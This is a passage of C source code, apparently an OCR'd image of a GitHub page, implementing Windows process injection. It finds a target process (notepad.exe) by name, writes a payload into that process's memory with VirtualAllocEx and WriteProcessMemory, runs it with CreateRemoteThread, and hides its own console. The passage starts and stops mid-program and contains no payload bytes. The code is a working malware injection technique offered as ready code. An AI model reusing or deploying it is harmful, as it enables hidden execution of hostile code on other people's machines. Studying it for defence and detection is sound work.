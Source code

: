 
    wcsncpy_s(procnameLower, 260, procname, _TRUNCATE);
    for (size_t i = 0; procnameLower[i]; i++) {
        procnameLower[i] = towlower(procnameLower[i]);
    }

    hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hProcSnap) return 0;

    pe32.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hProcSnap, &#x26;pe32)) {
        CloseHandle(hProcSnap);
        return 0;
    }

    while (Process32Next(hProcSnap, &#x26;pe32)) {
        wcsncpy_s(exeNameLower, 260, pe32.szExeFile, _TRUNCATE);
        for (size_t i = 0; exeNameLower[i]; i++) {
            exeNameLower[i] = towlower(exeNameLower[i]);
        }

        if (wcscmp(procnameLower, exeNameLower) == 0) {
            pid = pe32.th32ProcessID;
            break;
        }
    }

    CloseHandle(hProcSnap);

    return pid;
}


int Inject(HANDLE hProc, unsigned char* payload, unsigned int payload_len) {

    LPVOID pRemoteCode = NULL;
    HANDLE hThread = NULL;


    pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    WriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T*)NULL);

    hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteCode, NULL, 0, NULL);
    if (hThread != NULL) {
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    return -1;
}


int main(void) {

    int pid = 0;
    HANDLE hProc = NULL;

<strong>    // Add this to hide the console...
</strong>    FreeConsole();
    pid = FindTarget(L"notepad.exe");
